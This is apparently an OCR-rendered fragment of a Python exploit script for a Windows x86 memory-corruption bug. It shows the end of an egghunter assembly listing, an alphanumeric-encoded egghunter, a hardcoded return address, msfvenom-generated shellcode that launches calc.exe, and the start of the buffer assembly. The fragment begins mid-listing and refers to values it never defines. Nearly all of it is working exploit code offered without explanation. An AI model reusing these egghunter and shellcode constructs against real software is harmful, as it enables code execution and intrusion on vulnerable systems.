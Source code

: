 ```python
    pop    eax
    mov    bl, 0xc0
    call   DWORD [fs:ebx]
    add    esp, 0x0c
    pop    edx
    add    esp, 0x8
    cmp    al, 0x5
    je     page_invalid
    mov    eax, 0x74303077 ; w00t
    mov    edi, edx
    scasd
    jne    page_valid
    scasd
    jne    page_valid
    jmp    edi
"""
#x86/alpha_mixed succeeded with size 164 (iteration=0)
#x86/alpha_mixed chosen with final size 164
#Payload size: 164 bytes
egghunter = "PYIIIIIIIIIIIIIIII7QZjAXP0A0AkAAQ2AB2BB0BBABXP8ABuJILLjkmPIkFC4qiBavK1KziovoeaYK72CcF3rrpSccRsPjTibxnSkpPdyouCLCktflqJncYT7xwLwuBTIOMhqgp0p0QdMYHWLoRUKjnO1eHWYoiwAA"
egghunter_address = '\x76\xf7\x19\x00' # 0019F77e 50 PUSH EAX

# msfvenom -p windows/exec CMD=calc.exe -b '\x00\x0a\0xd' -f python EXITFUNC=seh -v egg
# [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
# [-] No arch selected, selecting arch: x86 from the payload
# Found 11 compatible encoders
# Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
# x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
# Attempting to encode payload with 1 iterations of generic/none
# generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
# Attempting to encode payload with 1 iterations of x86/call4_dword_xor
# x86/call4_dword_xor succeeded with size 220 (iteration=0)
# x86/call4_dword_xor chosen with final size 220
# Payload size: 220 bytes
# Final size of python file: 1078 bytes
egg = "w00tw00t"
#egg += "\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc"
egg += "\x81\xe4\xf0\xff\xff\xff" # and esp, 0xfffffff0 ; align stack
egg += "\xb8\x5d\x75\x2f\x09\xd9\xd0\xd9\x74\x24\xf4\x5f\x29"
egg += "\xc9\xb1\x31\x31\x47\x13\x83\xef\xfc\x03\x47\x52\x97"
egg += "\xda\xf5\x84\xd5\x25\x06\x54\xba\xac\xe3\x65\xfa\xcb"
egg += "\x60\xd5\xca\x98\x25\xd9\xa1\xcd\xdd\x6a\xc7\xd9\xd2"
egg += "\xdb\x62\x3c\xdc\xdc\xdf\x7c\x7f\x5e\x22\x51\x5f\x5f"
egg += "\xed\xa4\x9e\x98\x10\x44\xf2\x71\x5e\xfb\xe3\xf6\x2a"
egg += "\xc0\x88\x44\xba\x40\x6c\x1c\xbd\x61\x23\x17\xe4\xa1"
egg += "\xc5\xf4\x9c\xeb\xdd\x19\x98\xa2\x56\xe9\x56\x35\xbf"
egg += "\x20\x96\x9a\xfe\x8d\x65\xe2\xc7\x29\x96\x91\x31\x4a"
egg += "\x2b\xa2\x85\x31\xf7\x27\x1e\x91\x7c\x9f\xfa\x20\x50"
egg += "\x46\x88\x2e\x1d\x0c\xd6\x32\xa0\xc1\x6c\x4e\x29\xe4"
egg += "\xa2\xc7\x69\xc3\x66\x8c\x2a\x6a\x3e\x68\x9c\x93\x20"
egg += "\xd3\x41\x36\x2a\xf9\x96\x4b\x71\x97\x69\xd9\x0f\xd5"
egg += "\x6a\xe1\x0f\x49\x03\xd0\x84\x06\x54\xed\x4e\x63\xa4"
egg += "\x1c\x43\x79\x31\x87\x36\xc0\x5f\x38\xed\x06\x66\xbb"
egg += "\x04\xf6\x9d\xa3\x6c\xf3\xda\x63\x9c\x89\x73\x06\xa2"
egg += "\x3e\x73\x03\xc1\xa1\xe7\xcf\x28\x44\x80\x6a\x35"


# \x46 => inc esi as NOPs
payload = '\x46' * (jmp_offset - len(egghunter))
payload += egghunter # will be loaded at 0019F77e
# payload += 'BBBB'
payload += stage2
```